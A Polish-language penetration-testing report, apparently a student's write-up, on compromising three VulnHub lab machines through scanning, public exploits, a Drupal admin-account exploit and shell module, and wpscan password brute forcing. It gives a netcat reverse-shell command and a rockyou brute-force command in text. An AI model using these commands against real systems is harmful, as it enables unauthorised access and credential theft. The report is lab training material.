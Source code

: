# Sprawozdanie z testów penetracyjnych
# Michał Wawrzyńczak


## Wstępne skanowanie hostów i sieci:
Pierwszym etapem było pobranie ze strony VulnHub i zainstalowanie 3 maszyn wirtualnych:
- Kioptrix 1 - https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ 
- DC-1 - https://www.vulnhub.com/entry/dc-1,292/ 
- EVM: 1 -  https://www.vulnhub.com/entry/evm-1,391/ 

**Utworzyłem sieć wewnętrzną składającą się z tych 3 maszyn i hosta KaliLinux, a następnie przeprowadziłem kilka etapów skanowania wykorzystując różna narzędzia. Pierw wykorzystałem prosty skrypt aby określić jakie nowe adresy ip pojawiły się w sieci:**

![PingScan0](https://user-images.githubusercontent.com/56591106/72288546-93e51d80-3649-11ea-9c31-8ac785eba3bf.PNG)
![PingScan](https://user-images.githubusercontent.com/56591106/72288545-934c8700-3649-11ea-9fce-d9f012ebdbd0.PNG)

**Przeprowadziłem także skanowanie sieci, a także agresywne skanowanie nowych adresów IP przy użyciu nmapa:**
![nmapPing](https://user-images.githubusercontent.com/56591106/72288549-93e51d80-3649-11ea-8659-a3724f3ac3cc.PNG)
![nmapAgresiv](https://user-images.githubusercontent.com/56591106/72288536-90519680-3649-11ea-820a-d87e94d5e77d.PNG)

**Wszystkie 3 hosty przeskanowałem także przy użyciu narzędzi OpenVas i Nessus:**
![allOpenVas](https://user-images.githubusercontent.com/56591106/72289520-99436780-364b-11ea-9d3e-77d1a2ca1a66.PNG)
![allNessus](https://user-images.githubusercontent.com/56591106/72289521-99dbfe00-364b-11ea-8a83-e0147483533f.PNG)


## Pentest maszyny Kioptrix (192.168.12.14):

**Pierwszą maszyną której próby się podjąłem był Kioptrix, zacząłem od ponownego przeskanowania hosta przy użyciu n mapa, oraz przejżałem wyniki skanowań z OpenVasa i Nessusa:**
![KioptrixZenMap](https://user-images.githubusercontent.com/56591106/72288539-90ea2d00-3649-11ea-8be7-522fb187bee5.PNG)
![KioptrixOpenVas](https://user-images.githubusercontent.com/56591106/72289912-6a79c100-364c-11ea-9a1a-eaf02d8948c3.PNG)
![KioptrixNessus](https://user-images.githubusercontent.com/56591106/72289911-6a79c100-364c-11ea-9be3-6f2bc6660a6d.PNG)

**Następnie przystąpiłem do sprawdzania kolejnych usług dostępnych na hoscie, sprawdzałem czy są dostępne exploity na działające wersje usług, podczas działań posłużyłem się wyszukiwarką google i znalazłem coś co wyglądało obiecująco:**
https://www.exploit-db.com/exploits/764

**Sprawdziłem czy ten exploit dostępny jest w kali Linuxie:**
![searchsploit](https://user-images.githubusercontent.com/56591106/72290898-8716f880-364e-11ea-937d-9a94f6dc3ae9.PNG)

**Przy próbie kompilacji wystąpił jednak problem, który ciężko mi było rozwiązać, skorzystałem więc z dobrodziejstw dzisiejszego świata i poszukałem rozwiązania w internecie (wymagane były drobne poprawki w exploicie).**
![errory](https://user-images.githubusercontent.com/56591106/72291707-30aab980-3650-11ea-9e80-f32a8cf270bc.PNG)

**Po drobnej modyfikacji udało mi się skompilować exploit**
![compilation](https://user-images.githubusercontent.com/56591106/72291708-30aab980-3650-11ea-9014-2037f6021eb9.PNG)

**Następnie wybrałem porządany paramet exploita na określoną wersję usługi i uruchomiłem exploita**
![version](https://user-images.githubusercontent.com/56591106/72291705-30122300-3650-11ea-846c-ef3c2dcffd07.PNG)

**Udało mi się wejść do systemu jednak nie posiadałem uprawnień root'a:**
![apache](https://user-images.githubusercontent.com/56591106/72291706-30aab980-3650-11ea-8784-b91e7d5daba1.PNG)
![accesDenied](https://user-images.githubusercontent.com/56591106/72292238-466cae80-3651-11ea-9d51-eb6aa477fd2c.PNG)

**Podjąłem się więc próby uzyskania dostępu do konta roota, przeszukując exploity w matasploit natrafiłem na**
![exploit](https://user-images.githubusercontent.com/56591106/72294277-80d84a80-3655-11ea-98a3-5434632b82e2.PNG)

**Sprawdziłem kilka payloadów, z których ten okazał się skuteczny**
![payload3](https://user-images.githubusercontent.com/56591106/72294282-8170e100-3655-11ea-8f92-f95ca4ee3c77.PNG)

**Udało mi się nawiązać połączenie z hostem i uzyskać dostęp do jego powłoki**
![session](https://user-images.githubusercontent.com/56591106/72294278-80d84a80-3655-11ea-8ef7-7f3bd75e3892.PNG)

**W lokalizacji `var/mail/root`znalazłem takiego oto maila. Maszynę uznałem za złamaną"
![WIN](https://user-images.githubusercontent.com/56591106/72294281-80d84a80-3655-11ea-9924-f58fd555ffd5.PNG)

## Pentest maszyny DC-1 (192.168.12.12):
**Drugą maszyną którą starałem się złamać była DC-1, zacząłem od ponownego przeskanowania hosta przy użyciu n mapa, oraz przejżałem wyniki skanowań z OpenVasa i Nessusa:**
![zenMapDC](https://user-images.githubusercontent.com/56591106/72304554-2351f700-3671-11ea-9861-9f45cbbaa171.PNG)
![openVasDC](https://user-images.githubusercontent.com/56591106/72304475-ebe34a80-3670-11ea-95e9-9502707a0a11.PNG)
![nessusDC](https://user-images.githubusercontent.com/56591106/72304486-edad0e00-3670-11ea-8ae3-df9ad773bfbb.PNG)

**Następnie zacząłem przeszukiwać bazę exploitów i znalazłem coś co mnie zainteresowało**
![exploit31](https://user-images.githubusercontent.com/56591106/72304773-d28ece00-3671-11ea-9e42-5e047885a3ef.PNG)
![config](https://user-images.githubusercontent.com/56591106/72304482-ec7be100-3670-11ea-9c56-24efee915d3e.PNG)

**Niestety nie udało mi się w ten sposób uzyskać dostępu do roota**
![www-data](https://user-images.githubusercontent.com/56591106/72304483-ed147780-3670-11ea-8667-8a687aa57d8f.PNG)

**Zaciekawił mnie jadnak kolejny exploit, umożliwiający dodanie konta administratora do `drupal 7`**
![exploitAddAdmin](https://user-images.githubusercontent.com/56591106/72304478-ec7be100-3670-11ea-9707-330d092e44ce.PNG)
![addAdmin](https://user-images.githubusercontent.com/56591106/72304477-ebe34a80-3670-11ea-944c-d7ece8d0735b.PNG)
 
 **Po dodaniu konta administratora mogłem zalogowac się wybranym loginem i hasłem, w zakładce Modules mogłem dodać pobrany ze strony https://www.drupal.org/project/shell moduł powłoki**
![browseShell](https://user-images.githubusercontent.com/56591106/72304479-ec7be100-3670-11ea-9494-361773c8c3d9.PNG)
![installShell](https://user-images.githubusercontent.com/56591106/72304484-ed147780-3670-11ea-804f-420888e25d71.PNG)

**Mogłem w ten sposób uzyskac dostęp do powłki systemu jako www-data**
![shellStart](https://user-images.githubusercontent.com/56591106/72305129-1a622500-3673-11ea-9fa0-93f8fb7c36fc.PNG)

**Następni przu użyciu NetCata i poniższych komend uzyskałem dostęp do powłoki z poziomu terminala**
```
nc -nclp 1234 ==> komenda w terminalu Kalego, nasłuchwanie połączenia
nc -nv 192.168.12.8 1234 -e /bin/bash ==> z poziomu drupal shella, nawiązanie połączenia
```
![conecting](https://user-images.githubusercontent.com/56591106/72304485-ed147780-3670-11ea-8535-a07fbc51670f.PNG)

**Mają dostęp do powłoki (jeszcze nie jako root) wykonałem kilka poleceń, do których podpowiedzi odczytałem ze znalezionych flag, dzięki temu udało mi się uzyskać uprawnienia roota**
![Root](https://user-images.githubusercontent.com/56591106/72304476-ebe34a80-3670-11ea-97da-397cb7bfcbc3.PNG)

**Znalezione flagi**

![flag1](https://user-images.githubusercontent.com/56591106/72305564-78433c80-3674-11ea-9424-d451921cdbaf.PNG)
![flag3](https://user-images.githubusercontent.com/56591106/72305562-77aaa600-3674-11ea-9456-23ed67602698.PNG)
![flag4](https://user-images.githubusercontent.com/56591106/72305565-78433c80-3674-11ea-8d01-a0d37992b063.PNG)

**Finałowa flaga**
![finalflag](https://user-images.githubusercontent.com/56591106/72331786-0e995180-36b9-11ea-809f-5420c87593df.PNG)

**Maszyna przeze mnie uznana za złamaną**


## Pentest maszyny EVM (192.168.12.13):
**Trzecią maszyna to EVM, tak jak w poprzednich przypadkach zacząłem od skanowania zemMap, OpenVas i Nessus
![zenMapEVM](https://user-images.githubusercontent.com/56591106/72371206-2649f780-3704-11ea-883c-4b0913cdda98.PNG)
![OpenVas](https://user-images.githubusercontent.com/56591106/72371205-2649f780-3704-11ea-88e5-16ca3fff02e8.PNG)
![Nessus](https://user-images.githubusercontent.com/56591106/72371208-2649f780-3704-11ea-82d0-5e6ecd1e5ed9.PNG)

**Po wejściu na ip maszyny znajdujemy wskazówkę odnośnie aplikacji wordpress**
![ip](https://user-images.githubusercontent.com/56591106/72371209-26e28e00-3704-11ea-96bc-06ac1271418d.PNG)

**Wykonałem dodatkowo skanowanie przy użyciu dirb'a**
![dirb](https://user-images.githubusercontent.com/56591106/72371210-26e28e00-3704-11ea-8bfa-e63f10fb0046.PNG)

**Następnie przy użyciu `wpscan` u polecenia `wpscan --url 192.168.12.13/wordpress -e u` przeprowadziłem skanowanie i uzyskałałem login do usługi**
![user](https://user-images.githubusercontent.com/56591106/72371211-26e28e00-3704-11ea-933b-f230cd9b19c3.PNG)

**Następnie przeprowadziłem próbę złamania hasła bruteforcem `wpscan --url 192.168.12.13/wordpress --usernames c0rrupt3d_brain --passwords /usr/share/wordlists/rockyou.txt`**
![password](https://user-images.githubusercontent.com/56591106/72371213-277b2480-3704-11ea-83cf-4516f37eb7e7.PNG)

**Wyszukałem exploitów związanych z WordPressem, wybrałem jeden z nich i ustawiłem wszystkie parametry**
![searchsploit](https://user-images.githubusercontent.com/56591106/72371214-277b2480-3704-11ea-98e1-de2e1ab797ea.PNG)
![exploit](https://user-images.githubusercontent.com/56591106/72371216-2813bb00-3704-11ea-8d73-e318071a6ebc.PNG)

**Uruchomiłem powłokę i za dysku znalazłem plik `root_password_ssh.txt`**
![sshPassword](https://user-images.githubusercontent.com/56591106/72371217-2813bb00-3704-11ea-8552-de14d2740a51.PNG)

**Dzięki temu hasłu zyskałem uprawnienia roota na maszynie EVM**
![root](https://user-images.githubusercontent.com/56591106/72371218-2813bb00-3704-11ea-830c-68427e59d95a.PNG)

**W folderze root znalazłem plik z gratulacjami złamania maszyny**
![WIN](https://user-images.githubusercontent.com/56591106/72371204-2649f780-3704-11ea-9a83-808f5b22a552.PNG)
